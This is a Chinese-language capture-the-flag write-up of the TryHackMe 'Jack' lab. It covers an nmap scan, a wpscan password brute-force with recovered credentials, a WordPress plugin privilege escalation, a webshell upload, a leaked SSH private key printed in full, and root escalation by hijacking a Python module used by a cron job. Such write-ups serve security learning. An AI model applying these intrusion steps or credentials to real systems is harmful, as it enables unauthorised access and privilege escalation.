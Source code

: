 ```yaml
---
sidebar_position: 169
tags: [Easy, Linux, 定时任务, 密码破解-弱密码]
title: "Jack"
description: "Jack"
sidebar_label: "Jack"
slug: /tryhackme/169
---
```


# Jack

## 端口扫描

```bash
root@ip-10-10-110-123:~/jack# nmap -sTCV -p 22,80 --min-rate 1000 10.10.50.190

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-29 06:46 GMT
Nmap scan report for ip-10-10-50-190.eu-west-1.compute.internal (10.10.50.190)
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
MAC Address: 02:AD:C0:81:8A:0B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

## 80

根据端口扫描的结果我知道对应的 80 端口是一个 wordpress 服务, 接着我进行了一些收集:

- 用户名枚举 : wendy, Password: changelater
- 漏洞扫描, 可惜没有发现利用的途径

所以我进行了暴力破解这里开始使用了 rockyou.txt 但是一个小时还是没有反应, 论坛提示使用小字典

```bash
root@ip-10-10-110-123:~/jack# wpscan --password-attack xmlrpc -t 20 -U jack,wendy,danny -P /usr/share/wordlists/fasttrack.txt  --url http://jack.thm/
[SUCCESS] - wendy / changelater
```

使用此进行登陆之后发现是一个普通用户, 查看提示内容

![image-20240709202431371](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202433.png)

根据提示进行查找我发现了一个权限提升的方法, 我们可以使用这个方法将用户 wendy 提升为网站管理员 [WordPress Plugin User Role Editor < 4.24 - Privilege Escalation](https://vk9-sec.com/wordpress-plugin-user-role-editor-4-24-privilege-esca lation/)之后上传 WebShell 获取权限 (这里通过上传插件的方式进行操作)

## 后渗透

### www-data

访问我们上传的 WebShell 来获取 reverse shell

![image-20240709202447767](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202449.png)

### www-data —> jack

查看 jack 用户家目录在其中发现一段提示其告诉我们注意文件权限在上次备份时出现了差错, 我直接查看 `/var/backups` 发现其中泄露了 jack 用户的 SSH 私钥

```bash
(remote) www-data@jack:/var$ ls -al backups/
total 776
.....
-rwxrwxrwx  1 root root     1675 Jan 10  2020 id_rsa
-rw-------  1 root root     1626 Jan  9  2020 passwd.bak
-rw-------  1 root shadow    969 Jan  9  2020 shadow.bak
(remote) www-data@jack:/var/backups$ cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAxfBR9F9V5G2snv1Xaaxv3VHbFZ2VZRwGyU+ah6komBeaAldr
8SNK1x0wu/eXjLjrWnVaYOEU2YUrHzn/duB3Wvm8xyA0T8x/WbV2osWaVOafkPSv
YpV4OdQrdRoS3PEOXRnS+CnOTAgPWo2+xfH1XeldFw9XiYrprTugmwCcYDuBZB3r
zmWA8sPWjLjs6xzNK26RQQbo9zaxwfEdjZ3an9JngJJ7m0rtF9vKeCRfO1V8sd/t
1lu96Kqn4FZUTXQFEGfAYupG6b3vpRwqmI6y2VjK5MxlMmEdwP8oxmKR4XRqvSK1
8m5byz8ZUu1RfB8Ug/pKK9VVbk9QFWbrV4E3FwIDAQABAoIBAEEr0TAOu68MVUu7
yi4m8mYCb4n8apXx1mIt7YlBLvZ0vuaKdiXdIuUU3VjmOmXA9OzButIvCbhc2kfb
xrsTSPkRRRCjD9Y+VKfq0XbibOALVvpZNe3VnNIdg3l47kEEtV/+ArJmwV/TP4rn
JKrz8X/MODRBfubwb+Pzv/uJBfPAzvkokKUp9D2LqNjQEY4w71j0yUl+A0xnkT4i
L1FbzghdARExy2cJN0RfdDKhy/DfXos7+JHso3ZvXmSx0ivS+HyCblO25Kcmy4Vh
FZotNk+28iw6DKm1wrgAjj0sdLpB6jW9+M/kSQCovMijPM8h8JNPLNOJMFSKWBH8
m9US/XECgYEA+AW0bbMVoylAcWGold85Ileyuw/q3HwsDdRrO43uMZvQe8f5TRsd
Q9SvAEz9T46YErySq33jOPmsGLf02EEiyGggpBiuhi3FmtMa7440qGFig4Q5IVxn
QuSDUQvxN/uVE+TZxlRPTUeAFPcAI4DAUYbubAcJzvXeAsCPsKbQGw0CgYEAzE42
H8SUWiCMXBMotEUpn14pGcP4O+hei9j7P1Nupy/F63UtYPvXN4oi75YeLiInUXzU
S/r3+AxoNafMAy67oQhLKHXs+NOP5aEkVhNDhHFNpWutYPn9aLWUIx1tXbWsaecE
i7OCxjp0L5lDRVl3TLzXeZmtp0oSAPKNRYmgQbMCgYAvL0aoKA3RwKNV7rJX8OO5
uN1z4Q9ZavYmm2bbKaFLJs1+/whatvHWWbwBXqRCYmpkBiQRJB36VOV8vmKCUcIA
Rm8PSPLK7CJP1iGluXQjJIPNaXZE9oNeooKpBJCbie1On5ceuCNuHFAtrOAF4RS1
beol+yDOks/tzhyICvREcQKBgCHIiRClu/ZPTYZoMKHmkeRleJxnGGQnn4K2hY1K
KZEByFOQE8nmuwbXE8HUa/cq9J936c8Kl/hvbMf6kDSyhJozOeJd5aqbqT7Kb6zA
ELkU10cUUB4qGGo5JF7OHeiSAwmcBtdm/qfywIWibUpJaf3JeEQGUn3INMPtV8j4
4gQbAoGBAKuXPITKuO7SsRfXcwB3MO3iCTLdW7BYnYF1SzVbPBonmcsxlQinvoRg
2faWmSFAUK6cIys9za3pzOw3FP8W9Q5SGsA9KriSYj6/h7ei9GeJAr3mxlbGnkZN
ZFqUVe2Jvxq++O6Ub41zUtWINbR5Fxf+kTlJIIwqc6IuzZq+QWXy
-----END RSA PRIVATE KEY-----
```

使用此进行登陆我们就可以获取到 jack 用户的 Shell

### jack —> root

接着我发现在 `/opt` 下存在一个属于 root 的脚本, 从其内容不难推断出, 这是一个定时任务, 我们只需要修改 [os.py](http://os.py) 文件就可以完成提权操作

```bash
(remote) www-data@jack:/opt/statuscheck$ ls -al
total 28
drwxr-xr-x 2 root root  4096 Jan 10  2020 .
drwxr-xr-x 3 root root  4096 Jan 10  2020 ..
-rw-r--r-- 1 root root    92 Jan 10  2020 checker.py
-rw-r--r-- 1 root root 13068 Oct 29 02:36 output.log
(remote) www-data@jack:/opt/statuscheck$ cat checker.py 
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
(remote) www-data@jack:/opt/statuscheck$ head -n 5 output.log  
HTTP/1.1 200 OK
Date: Sat, 11 Jan 2020 00:44:01 GMT
Server: Apache/2.4.18 (Ubuntu)
Link: <http://jack.thm/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```

之后查找所有的 os.py 文件, 发现其中一条我们可以进行写入这里就是我们的突破口了, 所以我在其中写入了一点内容,当脚本执行后我们就可以完成提权操作

![image-20240709202500849](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202502.png)